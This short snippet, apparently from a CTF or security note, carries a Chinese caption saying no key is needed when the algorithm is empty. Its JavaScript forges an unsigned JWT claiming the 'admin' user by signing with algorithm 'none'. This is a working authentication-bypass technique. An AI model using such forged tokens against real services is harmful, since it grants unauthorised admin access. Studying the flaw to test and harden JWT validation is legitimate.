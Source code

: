 > algorithm 为空时可免密钥

```javascript
const jwt = require('jsonwebtoken');

var payload = {
secretid: [],
username: 'admin',
password: ''
}
var token = jwt.sign(payload, undefined, {algorithm: 'none'});
console.log(token);
```